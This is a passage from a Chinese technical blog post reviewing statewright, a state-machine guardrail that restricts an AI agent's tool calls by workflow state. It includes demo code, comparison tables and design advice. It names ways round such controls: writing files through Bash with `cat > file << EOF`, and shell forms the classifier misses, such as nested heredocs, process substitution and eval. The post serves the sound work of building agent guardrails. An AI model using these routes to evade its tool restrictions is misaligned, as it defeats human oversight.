print("Planning 状态：Agent 想调 write_file + deploy + read_file")
print("=" * 60)
result = enforce_tools(
    bugfix_workflow,
    "planning",
    ["write_file", "deploy", "read_file"]
)
print(f"✅ 允许: {result.allowed}")
print(f"❌ 拒绝: {result.blocked}")
print(f"💡 隐式跃迁: {result.implicit_transition}")  # PLAN_READY

print()
print("=" * 60)
print("Implementing 状态：Agent 想调 read_file + run_test + deploy")
print("=" * 60)
result = enforce_tools(
    bugfix_workflow,
    "implementing",
    ["read_file", "run_test", "deploy"]
)
print(f"✅ 允许: {result.allowed}")
print(f"❌ 拒绝: {result.blocked}")
print(f"💡 隐式跃迁: {result.implicit_transition}")

print()
print("=" * 60)
print("Final 状态（completed）：Agent 想调任何工具")
print("=" * 60)
result = enforce_tools(bugfix_workflow, "completed", ["read_file"])
print(f"✅ 允许: {result.allowed}")
print(f"❌ 拒绝: {result.blocked}")
```

**运行结果**：

```
============================================================
Planning 状态：Agent 想调 write_file + deploy + read_file
============================================================
✅ 允许: ['read_file']
❌ 拒绝: ['write_file', 'deploy']
💡 隐式跃迁: PLAN_READY

============================================================
Implementing 状态：Agent 想调 read_file + run_test + deploy
============================================================
✅ 允许: ['read_file', 'run_test']
❌ 拒绝: ['deploy']
💡 隐式跃迁: None

============================================================
Final 状态（completed）：Agent 想调任何工具
============================================================
✅ 允许: []
❌ 拒绝: ['read_file']
```

**关键设计 vs statewright 的差距**：

| 维度 | 30 行 Python | statewright Rust |
|------|--------------|------------------|
| Bash 分类 | ❌ 无 | ✅ 9 类 OpClass |
| 权限阶梯 | ❌ 无 | ✅ 5 级 + 跳级审批 |
| Approval gate | ❌ 无 | ✅ `requires_approval` |
| 模糊事件解析 | ❌ 无 | ✅ 状态名/子串/safe_next 三层 fallback |
| Interrupt | ❌ 无 | ✅ 文件 glob + $return |
| Sub-machine | ❌ 无 | ✅ 递归 + max_depth |
| 性能 | 100K tool call/s | 10M+ tool call/s |

**MVP 复刻启示**：

- **必须有**：State × Tool Enforcer 核心循环 + Final 态拒所有 + 隐式跃迁建议（3 块共 ~30 行）
- **强烈推荐**：Bash Classifier 的"至少识别 `>` `>>` 重定向"——否则 `cat > file << EOF` 立刻绕过
- **可以省略**：approval gate 审批 UI（先 fail-closed 给用户看 prompt）、Interrupt（先不用反应式）、Sub-machine（先做单体工作流）

---

## 十、横向对比：statewright vs 其他 Harness

statewright 的定位**完全不同于现有 Harness**——它不是 Agent 框架，而是**在 Agent 之外的物理护栏**。

| 维度 | statewright | LangGraph | Claude Code Hooks | AGT (Script 组件) |
|------|-------------|-----------|-------------------|-------------------|
| **类型** | 状态机护栏 | 编排框架 | shell hook | 政策引擎 |
| **裁决时机** | 每次 tool call | 节点调用 | 调用前/后 | 调用前 |
| **决策主体** | **状态机（确定性）** | LLM 推理 | 外部脚本 | policy YAML + LLM |
| **修改工具集** | ✅ 状态切换 | ❌ 需重启 | ❌ 全局静态 | ✅ 上下文相关 |
| **Sub-Agent 隔离** | ✅ 子机器独立 context | ✅ subgraph 隔离 | ❌ 无 | ✅ 项目内分组 |
| **审批机制** | ✅ `requires_approval` | 需手写代码 | ❌ 外部脚本 | ✅ 多级审批 |
| **跨工具适配** | ✅ 5 类 Harness | ❌ LangChain 链 | ✅ 任何 shell | ❌ Python |
| **性能开销** | **<1ms** | 几十 ms | 几十~几秒 | 几十 ms |
| **自我修复** | ❌ 无 | ❌ 无 | ❌ 无 | ✅ Saga/circuit breaker |

**关键差异**：

1. **statewright 是"机制"而非"策略"**：状态机本身是确定性的（O(1) 查表），策略（什么状态允许什么工具）是声明式的 JSON
2. **statewright 是"前置护栏"而非"事后观测"**：Langfuse / Helicone 是观测，不阻止；statewright 在 MCP 层物理阻止
3. **statewright 是"通用工具限制"而非"政策匹配"**：AGT 的 Script 组件做的是"敏感操作匹配"，statewright 做的是"任何工具在任意状态的白名单/黑名单"

**独家优势**：

- **Bash Classifier 是 statewright 独此一家**——其他 Harness 都没解决 `cat > file << EOF` 绕过问题
- **Interrupt $return 是 statewright 独家**——其他 Harness 没把"文件编辑即跳转"做成一等公民
- **隐式跃迁建议是 statewright 独家**——其他 Harness 报错就是 "blocked"，statewright 会主动告诉 Agent"调这个事件可以跳过去"

---

## 十一、优缺点：架构简洁性 vs 工程复杂度

| 维度 | 评分 | 评注 |
|------|------|------|
| **架构简洁性** | ⭐⭐⭐⭐⭐ | 3 层独立 crate，Engine 0 运行时依赖 |
| **扩展性** | ⭐⭐⭐⭐ | 5 类适配器，但缺 ChatGPT/文心等 SaaS LLM |
| **易用性** | ⭐⭐⭐ | 写 JSON 工作流需要状态机训练 |
| **性能** | ⭐⭐⭐⭐⭐ | O(1) 哈希查表，无 LLM 推理开销 |
| **复杂度** | ⭐⭐ | 200K+ 字符 Rust 代码，依赖 tokio/axum/reqwest |
| **维护性** | ⭐⭐⭐⭐ | Engine 是纯函数，但 Bash Classifier 36K 字符是核心资产 |

**最易踩的坑**：

1. **隐式跃迁可能跳到错误状态**——`find_implicit_transition` 用的是单步可达，下游可能继续触发跃迁
2. **Bash Classifier 不识别全部 shell 语法**——嵌套 heredoc、进程替换 `<()`、eval 字符串拼接仍是攻击面
3. **Interrupt 的 `context.json` 序列化开销**——大 context 中断时全量拷贝一次上下文到 `_interrupt_return`，高频中断会拖慢
4. **sub-machine 递归的 `max_depth` 默认值**——README 没写默认多少，深工作流容易触顶

---

## 十二、对你自己的启发

### 12.1 如果你是 Agent 用户

- **别让 Agent 自由奔跑**：把"先规划、再实现、最后 review"写进**强约束**（不是 prompt 而是工具白名单）
- **警惕 Bash 绕过**：只要 Agent 有 Bash 工具，Write 限制基本等于无——需要 Bash Classifier 这类机制
- **小模型 + 护栏 > 大模型裸跑**：statewright 实测 13GB 本地模型加护栏后从 2/5 到 5/5，比花 10 倍钱升级到 frontier model 性价比更高

### 12.2 如果你是 Agent 框架开发者

- **机制和策略分离**：`crates/engine` 完全无 tokio/axum 依赖，这是为什么 HandGesture Engineering 一直强调的——把状态机引擎做**纯函数库**才能跨框架复用
- **fail-closed 默认**：`OpClass::Destructive` 用 `__DESTRUCTIVE__` 哨兵而非 `Write`，避免"看起来有权限就能做"的灾难
- **隐式跃迁建议**：Agent 调错工具时不要只说 "blocked"，主动告诉它"调 PLAN_READY 可以到 implementing 拿到这个工具"——这是 statewright 最人因工程的细节

### 12.3 如果你是 Coding Agent 重度用户

- **从 `bugfix` 工作流开始**：statewright 的 README 给出了完整 JSON 模板，改两行就能套到你的项目
- **加 `requires_approval: true` 到 `git push` 之前**：再自信也别让 Agent 自动推 main
- **小项目就别用 statewright**：30 行 Python 实现够用；只有 10+ 个工具、多人协作、有合规要求时才值得引入 Rust 引擎

---

## 十三、结尾

statewright 用 505⭐ 的体量做了一件**反主流的事**——

不教 LLM 更聪明，而是**让 LLM 在更小的世界里挣扎**。

把"规划态不能 write、deploy 必前审批"这种**工程纪律**写进 Rust 引擎的物理裁决里。**模型不会自觉，那就让它没法不自觉**。

> Agents are suggestions, states are laws.

下次你的 Agent 又偷偷把测试跳过去跑 deploy 时——别骂它，**给它一份状态机**。

---

**参考资源**：

- 🔗 GitHub 仓库：https://github.com/statewright/statewright
- 📖 文档站：https://docs.statewright.ai
- 🔬 研究报告：https://statewright.ai/research
- 📦 5 类 CLI 适配：`npx statewright-codex@latest init` / `/plugin marketplace statewright` / `npx statewright-opencode@latest init` / `npx statewright-cursor@latest init` / Pi 内建

**架构关键文件**（CRATES 字符数）：

| 文件 | 字符数 | 作用 |
|------|--------|------|
| `crates/mcp-gateway/src/gateway.rs` | 238,003 | MCP 代理主入口 |
| `crates/mcp-gateway/src/remote.rs` | 65,989 | 云端 HTTP+SSE 传输 |
| `crates/mcp-gateway/src/bash_classifier.rs` | 36,668 | Shell 命令分类器（独家） |
| `crates/mcp-gateway/src/custom_tools.rs` | 36,017 | 自定义工具市场 |
| `crates/agent/src/ollama_client.rs` | 45,161 | 直连 Ollama HTTP 客户端 |
| `crates/agent/src/executor.rs` | 35,441 | 状态机 step 主循环 |
| `crates/agent/src/tool_protocol.rs` | 31,614 | OpenAI 兼容多轮消息 |
| `crates/engine/src/transition.rs` | 31,857 | 转移求解 + 模糊事件解析 |
| `crates/engine/src/validate.rs` | 24,105 | 结构校验 |
| `crates/engine/src/types.rs` | 21,632 | 数据模型定义 |

**关注**：本系列将持续追踪 Harness 6 件套（Rule / Skill / Sub-Agent / Workflow / Script / MCP）+ 状态机护栏 + 长期-Running 等横向对比选题。